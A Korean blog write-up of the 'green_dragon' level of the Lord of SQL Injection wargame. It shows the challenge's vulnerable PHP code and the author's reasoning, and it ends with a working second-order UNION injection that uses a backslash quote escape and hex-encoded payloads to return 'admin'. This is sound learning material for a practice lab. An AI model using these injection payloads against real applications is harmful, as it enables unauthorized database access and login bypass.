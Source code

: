 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - green_dragon 문제풀이"
excerpt_separator: <!--more-->
comments : true
categories : [Wargame/Lord of SQL Injection]
tags:
  - Write-up
  - Lord of SQL Injection
---
```


다시  `los.rubiya.kr`의 서버로 돌아와서 다음 문제를 풀어보았다.  

드디어 `dragon` 시리즈의 시작이다.  

<!--more-->

코드는 다음과 같다.  

```php
------------------------------------------------------------------------------------------
query : select id,pw from prob_green_dragon where id='' and pw=''
------------------------------------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\'|\"/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\'|\"/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id,pw from prob_green_dragon where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']){
    if(preg_match('/prob|_|\.|\'|\"/i', $result['id'])) exit("No Hack ~_~");
    if(preg_match('/prob|_|\.|\'|\"/i', $result['pw'])) exit("No Hack ~_~");
    $query2 = "select id from prob_green_dragon where id='{$result[id]}' and pw='{$result[pw]}'";
    echo "<hr>query2 : <strong>{$query2}</strong><hr><br>";
    $result = mysql_fetch_array(mysql_query($query2));
    if($result['id'] == "admin") solve("green_dragon");
  }
  highlight_file(__FILE__);
?>
```

소스코드가 좀 길어졌다.  

쿼리가 2개가 있는데, 첫 번째 쿼리는 내가 입력한 `id`와 `pw`를 가지고 `prob_green_dragon` 테이블에서 값을 뽑아온다.  

그런데 이 후, 해당 테이블에서 추출 한 `id`와 `pw`를 가지고 다시 필터링을 거친 후에, 결과로 나왔던 그 `id`와 `pw`를 가지고 한번 더 쿼리를 수행한다.  

그래서 나온 결과값의 `id`의 값이 `admin`이라면 문제를 풀 수 있다.  

필터링에 `'(싱글쿼터)`가 있기 때문에 먼저 이를 우회해야 한다.  

이 전 문제에서 이와 유사한 문제가 있었기 때문에 아래와 같이 입력 해 필터링 우회를 시도 해 보았다.  

```
?id=\&pw= or id=0x61646d696e#
```

이를 입력하면 완성되는 쿼리는 아래와 같다.  

```
select id,pw from prob_green_dragon where id='\' and pw=' or id=0x61646d696e#'
```

때문에 `id`가 `\'and pw`이거나 `id`가 `0x61646d696e`인 값을 데이터베이스에서 찾아 추출하게 된다.  

그런데 아무리 해도 결과 값이 나오지 않았다.  

처음엔 내가 문제를 잘못푼 줄 알았는데, 다시 생각해보니 `$query2`의 존재가 의심스러웠다.  

만약에 내가 했던 방법으로 문제가 풀릴 거라면, `$query`에서 나온 결과값이 바로 데이터베이스에 저장되어 있던 `id`와 `pw`의 값이기 때문에 이에 대해 따로 필터링을 할 필요가 없을 것 같았다.  

또한 그 `id`와 `pw`로 다시 한 번 `select`를 하는 것은 무의미해 보였다.  

그러다보니 이 테이블이 비어있다고 생각하게 되었다.  

테이블에 아무런 값이 없으니 아무리 조건을 넣어도 추출 할 값이 없었던 것이다.  

그래서 두 쿼리를 거친 결과가 `select 'admin'`이 되면 문제를 풀 수 있을 것이라고 생각했다.  

일단 `$query2`를 출력시키기 위해 `id`에는 `\`를, `pw`에는 `union select 1, 2%23`를 입력 해 보았다.  

```
?id=\&pw=union select 1, 2%23
```

그 결과 아래와 같이 두 번째 쿼리가 출력되는 것을 확인할 수 있었다.  

```php
----------------------------------------------------------------------------------------------------------------
query : select id,pw from prob_green_dragon where id='\' and pw='union select 1,2#'
----------------------------------------------------------------------------------------------------------------

-----------------------------------------------------------------------------------------
query2 : select id from prob_green_dragon where id='1' and pw='2'
-----------------------------------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\'|\"/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\'|\"/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id,pw from prob_green_dragon where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']){
    if(preg_match('/prob|_|\.|\'|\"/i', $result['id'])) exit("No Hack ~_~");
    if(preg_match('/prob|_|\.|\'|\"/i', $result['pw'])) exit("No Hack ~_~");
    $query2 = "select id from prob_green_dragon where id='{$result[id]}' and pw='{$result[pw]}'";
    echo "<hr>query2 : <strong>{$query2}</strong><hr><br>";
    $result = mysql_fetch_array(mysql_query($query2));
    if($result['id'] == "admin") solve("green_dragon");
  }
  highlight_file(__FILE__);
?>
```

예상대로 두 번째 쿼리에 1과 2가 들어갔다.  

그럼 이제 `union select 1, 2` 자리에 적당한 값을 넣어서 두 번째 쿼리가 `select admin`을 하도록 만들면 될 것 같다.  

그런데 `$result['id']`와 `$result['pw']`에 대해서도 같은 필터링이 걸려 있으므로 문자열은 사용할 수가 없고, 싱글쿼터를 우회해야 한다.  

그래서 두 번째 쿼리의 `id` 값에는 `\`가 들어가야 한다는 것을 쉽게 알 수 있다.  

이 때, `\`는 문자이기 때문에 `union select \, 2` 형태로 넣을 수 없기 때문에 `\` 또한 hex 값으로 바꾸어 넣어주어야 한다.  

문제는 `$result['pw']` 자리에 들어갈 내용이다.  

내가 만들고 싶은 두 번째 쿼리의 형태는 다음과 같다.  

```
select id from prob_green_dragon where id='\' and pw='union select 0x61646d696e#
```

그러면 뒤의 `union select 0x61646d696e`가 되어, 최종적으로 `admin`을 추출할 수 있게 된다.  

그런데 문제는 첫 번째 쿼리에서 뭐라고 입력해야 두 번째 쿼리에 내가 원하는 값을 넣을 수 있느냐는 것이었다.  

서버에서 테스트를 해 보았는데, 아래와 같이 입력하니 결과값을 얻을 수 있었다.  

```
mysql> select id, pw from user where id='\' and pw=' union select 1, (select 2);
+----+----+
| id | pw |
+----+----+
| 1  | 2  |
+----+----+
1 row in set (0.01 sec)
```

이를 그대로 넣으면, 두 번째 쿼리의 `pw` 자리에 `2`가 들어간다.  

그렇다면 `2`를 적절히 수정해서 `union select 0x61646d696e`를 만들면 된다.  

그런데 앞에서 말했다시피 싱글쿼터와 더블쿼터가 필터링 되어 있기 때문에 `hex`로 변경 해서 값을 넣어주어야 한다.  

`union select 0x61646d696e`를 하나하나 hex 값으로 바꾸면 `0x756e696f6e2073656c6563742030783631363436643639366523`이 된다.  

이 값을 아래와 같이 쿼리스트링으로 넘겨주었다.  

```
?id=\&pw= union select 0x5c, (select 0x756e696f6e2073656c6563742030783631363436643639366523)%23
```

역시 내 예상과 맞게 문제를 풀 수 있었다.  

```php
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
query : select id,pw from prob_green_dragon where id='\' and pw=' union select 0x5c, (select 0x756e696f6e2073656c6563742030783631363436643639366523)#'
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

------------------------------------------------------------------------------------------------------------------------------
query2 : select id from prob_green_dragon where id='\' and pw='union select 0x61646d696e#'
------------------------------------------------------------------------------------------------------------------------------

GREEN_DRAGON Clear!
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\'|\"/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\'|\"/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id,pw from prob_green_dragon where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']){
    if(preg_match('/prob|_|\.|\'|\"/i', $result['id'])) exit("No Hack ~_~");
    if(preg_match('/prob|_|\.|\'|\"/i', $result['pw'])) exit("No Hack ~_~");
    $query2 = "select id from prob_green_dragon where id='{$result[id]}' and pw='{$result[pw]}'";
    echo "<hr>query2 : <strong>{$query2}</strong><hr><br>";
    $result = mysql_fetch_array(mysql_query($query2));
    if($result['id'] == "admin") solve("green_dragon");
  }
  highlight_file(__FILE__);
?>
```

`GREEN_DRAGON Clear!`
